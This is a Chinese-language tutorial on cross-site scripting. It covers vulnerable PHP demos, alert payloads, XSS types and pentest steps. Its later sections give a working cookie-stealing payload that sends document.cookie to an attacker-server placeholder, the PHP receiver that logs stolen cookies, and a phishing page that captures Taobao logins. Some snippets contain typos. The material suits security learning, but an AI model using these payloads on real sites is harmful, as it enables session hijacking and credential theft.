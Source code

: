 # XSS基本原理

## 一、XSS基础演示代码

```php
<?php
// 从浏览器接受一个URL地址参数，名为content
if(isset($_GGET['content'])){
    $content = $_GET['content'];
    echo "你输入的内容：$content";
}
else{
    echo "请输入URL地址参数content";
}
?>
```

- 在地址栏输入：`http://localhost/security/test.php?content=helloworld`可以正常输出：`你输入的内容：helloworld`

- 在地址栏输入`http://localhost/security/test.php?content=<script>alert(1)</script>`时，前端执行JavaScript代码，弹出对话框

  ```
  或者：
  http://localhost/security/test.php?content=<button onclick=alert("你被攻击了")>点我</button>
  以及更复杂一些的：
  http://localhost/security/test.php?content=<script>test() {alert("你被攻击了")}</script><button onclick="test()"点我</button>
  ```

- 构造打开页面就执行的payload：

  ```
  http://localhost/security/test.php?content=<script>var result=0;for (var i=0;i<=100;i++) {result += i;} atlert(result);</script>
  需要注意的是，加号在URL中会被替换为空格，在构造payload时，可以使用%2B代替
  ```

## 二、XSS概述

- XSS指跨站攻击脚本，XSS漏洞发生在前端，攻击的是浏览器的解析引擎，XSS就是让攻击者的JavaScript代码在受害则会的浏览器上执行

- XSS的核心要求是构造出能让前端只想的JavaScript代码，所以要对JavaScript熟练

- XSS也算是注入类的漏洞，JavaScript的代码注入，所以XSS漏洞更主要是攻击系统的用户，而不是系统本身

- XSS是一种钓鱼攻击，攻击目标是不确定的。但是，如果针对Cookie类的攻击，隐含一个目标：网站管理员 

- JavaScript运行条件：

  - 代码位于`<script></script>`标签中

    ```
    <script>alert("你被攻击了")</script>
    ```

  - 代码位于onclick事件中，此类事件带有onerror,onload,onfocus,onblur,onchange,onmouseover,ondoubleclick等

    ```
    <img src="http://xxx.jpg" onmouseover="alert("/你被攻击了/")"
    ```

  - 代码位于超链接的href属性中，或者其他类似属性中

    ```
    <a href="javascript:alert(/你被攻击了/)">点击有奖金</a>
    ```

- XSS攻击流程

  ![202402271305096.png](..\..\picture\a46d44ea272c45818c1242be2b3f7a7f.png)
  
- 基于XSS配置钓鱼网站，自行构造一个与淘宝页面一样的网页，用户一旦输入用户密码，将直接发送账密到攻击者的后台服务器，然后后台将账密保存后，再跳转到真实的淘宝网站，让用户完成后续工作，服务器代码类似于：

  ```
  //获取用户账密
  $username = $_POST['username'];
  $password = $_POST['password'];
  
  // 将数据保存起来，然后跳转到真实网站
  
  echo "<script>document.write('你的账号密码不正确，请重新登录');setTimeout(function()) {location.href='https://www.taobao.com';},2000;)</script>";
  ```

## 三、XSS类型

- 反射型：构造好一个URL|XSS的payload，发给受害者，受害者点解一链接后会在受害者的浏览器上执行恶意代码。反射型XSS一次性的，比较容易被发现。通常恶意链接会被修改成一段短链接，或钓鱼图片的形式。
- 存储型：又叫永久型XSS，常见于留言板。因为存储型XSS的页面会将用户输入的内容存到数据库中，所以当其他人每访问一次的时候服务器都会从数据库将攻击者输入的内容掉渠道前端浏览器解析，因此每一次访问就相当于一次XSS攻击
- DOM型：不与服务器交互，本质还是一种反射型XSS，主要利用js使用DOM对前端html操作时产生的漏洞。DOM型XSS的难点在于它通过阅读JavaScript来确定输出的位置才好构建输入的payload，DOM型XSS可以通过开发者工具观测js变化

## 四、XSS渗透测试步骤

- XSS的原理就是开发者没有对输入内容进行过滤，导致攻击者通过将精心构造的前端代码输入后与原有的前端代码产生混淆，形成新的页面语句，并且新的页面语句可能被浏览器解析并输出
  - 输入：指攻击者对服务器王爷输入恶意代码
  - 输出：指浏览器接收到代码后能够解析并输出到前端
- XSS渗透测试步骤
  - 找到输入点，输入任意字符串，查看输出位置
  - 打开网页源代码，在源代码中查看输出的位置（有可能输入和输出不在同一页面）
  - 查看输出位置的内容跟与输入内容之间的关系，构建闭合和拼接脚本
  - 利用<script>或者onclick或alert(1)进行测试，确认是否存在XSS注入点
  - 开始利用该注入点进行各种复杂操作以实现攻击目的

- 将php代码优化为以下，让用户输入内容在一个文本框中输出：

    ```php
    <?php
    // 从浏览器接受一个URL地址参数，名为content
    if(isset($_GGET['content'])){
        $content = $_GET['content'];
        echo "你输入的内容是：<input type='text' id='content' value='" . $content . "'>";
    }
    else{
        echo "请输入URL地址参数content";
    }
    ?>
    ```
    
    - 此时可以通过拼接引号构造闭合来进行注入：
    
      ```
      http://localhost/security/test.php?value=hello' onclick=alert(1)'
      可以使用注释(#、//、/**/、<!--)将后面的内容截断：
      http://localhost/security/test.php?value=hello' onclick=alert(1) /> <!--
      ```

## 五、XSS获取Cookie

### 1.创建XSSdata数据库

![image-20240227160126122](..\..\picture\88f4885afaef4f79ab84465af5780744.png)

### 2.攻击者服务器代码

```php
// 以下代码同样具有sql注入漏洞，可以利用报错注入的方式进行注入

<?php
    
$ipaddr = $_SERVER['REMOTE_ADDR'];
$url = $_GET['url'];
$cookie = $_GET['cookie'];
    
$conn = new mysqli('127.0.0.1','root','123456','learn') or die("数据库连接不成功");
$conn->set_charset('utf8');
$sql = "insert into xssdata(ipaddr, url, cookie, createtime) values('$ipaddr','$url','$cookie',now())";
$conn->query($sql);

// 执行完上述收集过程后返回上一级：
// echo "<script>history.back();</script>";
// 执行完上述收集过程后跳转到其他网站：
// echo "<script>location.href='http://www.baidu.com/'</script>";

?>
```

### 3.在页面中注入代码

```
以下内容要注意在注入时把+号和&号替换为%2B和%26

使用script标签,将以下代码注入到页面后，每当有用户访问该留言或帖子，攻击者服务器就能收集到cookie信息：
<script>
	new Image().src = "http://攻击者服务器地址/xssrecv.php?url=" + location.href + "&cookie=" + document.cookie;
</script>


如果script被过滤，可以如下注入，但需要用户点击图片攻击者服务器才能收集到cookie信息：
<a href=\'javascript:location.href="http://攻击者服务器地址/xssrecv.php?url="%2Blocation.href%2B"%26cookie="%2Bdocument.cookie\'><img src="http://攻击者服务器地址/image.gif"/>  </a>
```

- 获取cookie后，可以利用该cookie伪装用户登录
- 当管理员访问页面时也会被收集cookie，可以利用管理员身份快速给自己留下后门

## 六、BlueLotusXSS平台

[trysec/BlueLotus_XSSReceiver: XSS平台 CTF工具 Web安全工具 (github.com)](https://github.com/trysec/BlueLotus_XSSReceiver)

使用工具
